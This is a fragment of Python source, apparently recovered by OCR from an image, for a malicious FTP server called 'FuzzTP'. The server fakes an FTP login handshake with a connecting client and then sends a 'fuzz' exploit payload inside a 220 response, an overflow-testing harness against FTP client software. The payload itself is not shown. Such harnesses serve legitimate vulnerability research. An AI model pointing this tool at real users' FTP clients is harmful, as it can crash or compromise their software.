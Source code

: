 ```
    server.bind((host_ip, host_port)) 
```

```
    server.listen(1) 
```

```
    print("\n\n` Phuzzy Phil's FuzzTP `\nServer is up.\nListening at %s on port %d" % (host_ip, host_port))
```

```
    print("Fuzzing exploit length: %d bytes" % len(fuzz))
```

```
    client, address = server.accept() 
```

```
    print("Connection accepted from FTP client %s, remote port %d" % (address[0], address[1]))
```

```
    client.send(b"220 Connected to FuzzTP Server by Phuzzy Phil\r\n") 
```

```
    client.recv(1024) 
```

```
    client.send(b"331 OK\r\n") 
```

```
    client.recv(1024) 
```

```
    client.send(b"230 OK\r\n") 
```

```
    client.recv(1024) 
```

```
    client.send(b"220 %s\r\n" % fuzz)
```

```
    print("\n\nFuzz payload sent! Closing connection, exiting server.\n")
```

```
    server.close() 
```

```
    client.close() 
```
